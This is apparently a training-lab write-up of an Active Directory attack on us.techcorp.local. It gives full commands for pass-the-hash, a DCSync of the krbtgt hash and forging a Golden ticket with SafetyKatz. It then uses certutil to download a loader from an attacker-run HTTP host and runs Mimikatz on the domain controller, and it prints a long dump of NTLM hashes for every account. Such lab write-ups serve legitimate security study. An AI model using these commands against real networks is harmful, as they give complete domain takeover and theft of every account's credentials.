






# Hands-on 14: Golden Tickets

- [Hands-on 14: Golden Tickets](#hands-on-14-golden-tickets)
  - [Tasks](#tasks)
  - [Using the NTLM hash or AES key of krbtgt account of us.techcorp.local, create a Golden ticket. Use the Golden ticket to (once again) get domain admin privileges from a machine.](#using-the-ntlm-hash-or-aes-key-of-krbtgt-account-of-ustechcorplocal-create-a-golden-ticket-use-the-golden-ticket-to-once-again-get-domain-admin-privileges-from-a-machine)

---

## Tasks

- Using the NTLM hash or AES key of krbtgt account of us.techcorp.local, create a Golden ticket. Use the Golden ticket to (once again) get domain admin privileges from a machine.

<br/>

----

## Using the NTLM hash or AES key of krbtgt account of us.techcorp.local, create a Golden ticket. Use the Golden ticket to (once again) get domain admin privileges from a machine.

Recall in [Hands-on 11](l11-UnconstrainedDelegation.md), we get the domain admin `administrator` AES256 key:

- `db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335`

Use the domain admin privilege to perform a DCSync. First perform Over-Pass-The-Hash:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:us.techcorp.local /user:administrator /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /run:powershell.exe"
```

  

<br/>

Then use `SafetyKatz.exe` again to perform a DCSync attack to obtain the hashes of `krbtgt`:

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

  

Note:
krbtgt
- SID: `S-1-5-21-210670787-2521448726-163245708-502`
- AES256: `5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5`
- NTLM: `b0975ae49f441adc6b024ad238935af5`

<br/>

Create a Golden ticket using `SafetyKatz.exe`:

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

  

<br/>

Use `klist` to inspect the ticket in the current session:

```
klist
```

  


<br/>

Try to access the DC `us-dc`:

```
winrs -r:us-dc.us.techcorp.local cmd.exe
```

  

<br/>

On the RDP machine, serve tools using `python SimpleHTTPServer`.

Download `Loader.exe` on the DC:

```
cd C:\Users\Public && certutil -urlcache -f http://192.168.100.64/Loader.exe .\Loader.exe
```

<br/>

Use `Loader.exe` to load Mimikatz and dump all the hashes on DC:

```
Loader.exe -path http://192.168.100.64/SafetyKatz.exe "lsadump::lsa /patch"
```

  

Dump:

```
mimikatz(commandline) # lsadump::lsa /patch
Domain : US / S-1-5-21-210670787-2521448726-163245708

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 43b70d2d979805f419e02882997f8f3f

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : b0975ae49f441adc6b024ad238935af5

RID  : 00000458 (1112)
User : emptest
LM   :
NTLM : 216fa4d07d30bdf282443cf7241abb8b

RID  : 0000045a (1114)
User : adconnect
LM   :
NTLM : 4e150424ccf419d83ce3a8ad1db7b94a

RID  : 0000045b (1115)
User : mgmtadmin
LM   :
NTLM : e53153fc2dc8d4c5a5839e46220717e5

RID  : 00000460 (1120)
User : helpdeskadmin
LM   :
NTLM : 94b4a7961bb45377f6e7951b0d8630be

RID  : 00000461 (1121)
User : dbservice
LM   :
NTLM : e060fc2798a6cc9d9ac0a3bb9bf5529b

RID  : 00000462 (1122)
User : atauser
LM   :
NTLM : f7f6ab297d5a4458073b91172f498b70

RID  : 00000464 (1124)
User : exchangeadmin
LM   :
NTLM : 65c1a880fcf8832d55fdc1d8af76f117

RID  : 00000465 (1125)
User : HealthMailbox3bd1057
LM   :
NTLM : 2179df71ef05b053ff394aa005479513

RID  : 00000466 (1126)
User : HealthMailboxc8de558
LM   :
NTLM : da689ac8323f67f9dfb8d0ef96cd8478

RID  : 00000467 (1127)
User : HealthMailbox01f72be
LM   :
NTLM : bc2bffcbb7d5e3720467a159b5310e34

RID  : 00000468 (1128)
User : HealthMailbox128342c
LM   :
NTLM : ecde2a64c10bb8212fb4fd3ce719424a

RID  : 00000469 (1129)
User : HealthMailboxbb3d25e
LM   :
NTLM : ad68b1275df61ab87315deb73ffcc868

RID  : 0000046a (1130)
User : HealthMailbox87cf12f
LM   :
NTLM : e5b20fff8ef19cc679f5f277b2f20ade

RID  : 0000046b (1131)
User : HealthMailboxd517735
LM   :
NTLM : b1cfb7e7723a5dd54bbe341311a11896

RID  : 0000046c (1132)
User : HealthMailbox86956b9
LM   :
NTLM : 8260d867bcff9b2b6ece08f41d673f3c

RID  : 0000046d (1133)
User : HealthMailbox307c425
LM   :
NTLM : 8ba1ff7e75b6bff3d763a2f45f709afc

RID  : 0000046e (1134)
User : HealthMailbox7f97592
LM   :
NTLM : c90d29c906daa0dff7a14c7834175ba3

RID  : 0000046f (1135)
User : HealthMailboxd933b3c
LM   :
NTLM : 517b5ccc5454b6622e79a8326a272d64

RID  : 00000470 (1136)
User : exchangemanager
LM   :
NTLM : b8a0ea6e3c104472377d082154faa9e4

RID  : 00000471 (1137)
User : exchangeuser
LM   :
NTLM : 1ef08776e2de6e9d9062ff9c81ff3602

RID  : 00000472 (1138)
User : pawadmin
LM   :
NTLM : 36ea28bfa97a992b5e85bd22485e8d52

RID  : 00000473 (1139)
User : jwilliams
LM   :
NTLM : 65c6bbc54888cbe28f05b30402b7c40b

RID  : 00000474 (1140)
User : webmaster
LM   :
NTLM : 23d6458d06b25e463b9666364fb0b29f

RID  : 00000478 (1144)
User : serviceaccount
LM   :
NTLM : 58a478135a93ac3bf058a5ea0e8fdb71

RID  : 000004f7 (1271)
User : devuser
LM   :
NTLM : 539259e25a0361ec4a227dd9894719f6

RID  : 00000507 (1287)
User : testda
LM   :
NTLM : a9cc782709f6bb95aae7aab798eaabe7

RID  : 00000509 (1289)
User : decda
LM   :
NTLM : 068a0a7194f8884732e4f5a7cb47e17c

RID  : 000011f9 (4601)
User : studentuser59
LM   :
NTLM : 09fbccd0afb4a557ce2d447c53ed0c31

RID  : 000011fa (4602)
User : studentuser60
LM   :
NTLM : 5306826b051133e1abb290292b32cec2

RID  : 000011fb (4603)
User : studentuser61
LM   :
NTLM : 7a7b499052602d0d4ae65e2ca21deb5f

RID  : 000011fc (4604)
User : studentuser62
LM   :
NTLM : e2a4c115b0024aee676b842a76a2fc03

RID  : 000011fd (4605)
User : studentuser63
LM   :
NTLM : fc6a6aae1bd22dedbe7b158a04137083

RID  : 000011fe (4606)
User : studentuser64
LM   :
NTLM : 4c438bdc5c6b49f7d1df2729d52210dc

RID  : 000011ff (4607)
User : studentuser65
LM   :
NTLM : bbfcb20d678d8ae4f720d1d2c1b0ba7b

RID  : 00001200 (4608)
User : studentuser66
LM   :
NTLM : 637b1ae7bdecdd8cfb3926ea964463e7

RID  : 00001201 (4609)
User : studentuser67
LM   :
NTLM : 3aecf85c254db4acaaf0cffe1c932dd2

RID  : 00001203 (4611)
User : studentuser68
LM   :
NTLM : 6bfa8e3a2878fe66da00d664f9e91a64

RID  : 00001204 (4612)
User : studentuser69
LM   :
NTLM : a622d92b36dd016cd7da7b7757b867c4

RID  : 00001205 (4613)
User : studentuser70
LM   :
NTLM : 2a6ebe168ac7288593eaadddc32b82b8

RID  : 00001206 (4614)
User : Support59user
LM   :
NTLM : 3d441b1832bd67688c191c7c63cccbb4

RID  : 00001207 (4615)
User : Support60user
LM   :
NTLM : 3d441b1832bd67688c191c7c63cccbb4

RID  : 00001208 (4616)
User : Support61user
LM   :
NTLM : 3d441b1832bd67688c191c7c63cccbb4

RID  : 00001209 (4617)
User : Support62user
LM   :
NTLM : 3d441b1832bd67688c191c7c63cccbb4

RID  : 0000120a (4618)
User : Support63user
LM   :
NTLM : 3d441b1832bd67688c191c7c63cccbb4

RID  : 0000120b (4619)
User : Support64user
LM   :
NTLM : 3d441b1832bd67688c191c7c63cccbb4

RID  : 0000120c (4620)
User : Support65user
LM   :
NTLM : 3d441b1832bd67688c191c7c63cccbb4

RID  : 0000120d (4621)
User : Support66user
LM   :
NTLM : 3d441b1832bd67688c191c7c63cccbb4

RID  : 0000120e (4622)
User : Support67user
LM   :
NTLM : 3d441b1832bd67688c191c7c63cccbb4

RID  : 0000120f (4623)
User : Support68user
LM   :
NTLM : 3d441b1832bd67688c191c7c63cccbb4

RID  : 00001210 (4624)
User : Support69user
LM   :
NTLM : 3d441b1832bd67688c191c7c63cccbb4

RID  : 00001211 (4625)
User : Support70user
LM   :
NTLM : 3d441b1832bd67688c191c7c63cccbb4

RID  : 0000121c (4636)
User : appsvc
LM   :
NTLM : 1d49d390ac01d568f0ee9be82bb74d4c

RID  : 000003e8 (1000)
User : US-DC$
LM   :
NTLM : f4492105cb24a843356945e45402073e

RID  : 00000450 (1104)
User : US-EXCHANGE$
LM   :
NTLM : 20a0e5d7c56dc75c9d2b4f3ac6c22543

RID  : 00000451 (1105)
User : US-MGMT$
LM   :
NTLM : fae951131d684b3318f524c535d36fb2

RID  : 00000452 (1106)
User : US-HELPDESK$
LM   :
NTLM : 76c3848cc2e34ef0a8b5751f7e886b8e

RID  : 00000453 (1107)
User : US-MSSQL$
LM   :
NTLM : ccda609713cb52b1aa752ee23aaf2fae

RID  : 00000454 (1108)
User : US-MAILMGMT$
LM   :
NTLM : 6e1c353761fff751539e175a8393a941

RID  : 00000455 (1109)
User : US-JUMP$
LM   :
NTLM : abff11a76a2fa6de107f0ea8251005c5

RID  : 00000456 (1110)
User : US-WEB$
LM   :
NTLM : 892ca1e8d4343c652646b59b51779929

RID  : 00000457 (1111)
User : US-ADCONNECT$
LM   :
NTLM : 093f64d9208f2b546a3b487388b2b34a

RID  : 00001212 (4626)
User : STUDENT59$
LM   :
NTLM : c59dc3b1e375ef3fab3ed0ef6a774033

RID  : 00001213 (4627)
User : STUDENT60$
LM   :
NTLM : f33ee456490f9223c4c51a443469c31b

RID  : 00001214 (4628)
User : STUDENT61$
LM   :
NTLM : c5e4598399eb2948169a4e7e6cc71b7f

RID  : 00001215 (4629)
User : STUDENT62$
LM   :
NTLM : 444c69a89c84f8c92193320064ccc259

RID  : 00001216 (4630)
User : STUDENT63$
LM   :
NTLM : a9762c170d9b7f69f574b6525d56b834

RID  : 00001217 (4631)
User : STUDENT64$
LM   :
NTLM : c0b1e505a7434d9f4270c1e42d695d00

RID  : 00001218 (4632)
User : STUDENT65$
LM   :
NTLM : ced266d2b208a8b3c59f479840273611

RID  : 00001219 (4633)
User : STUDENT66$
LM   :
NTLM : b13ba826dc3344e3130c461260ddb22b

RID  : 0000121a (4634)
User : STUDENT67$
LM   :
NTLM : 80e4fca0f9310def0733ae8f6d703af0

RID  : 0000121b (4635)
User : STUDENT68$
LM   :
NTLM : e7f57e634118aef38c604dc3a2e38fa5

RID  : 0000044f (1103)
User : TECHCORP$
LM   :
NTLM : 141575e2fb5277f5f4525cae4d410968

RID  : 00000477 (1143)
User : EU$
LM   :
NTLM : 779f7f03e9bc3f5ae43699d566def664

```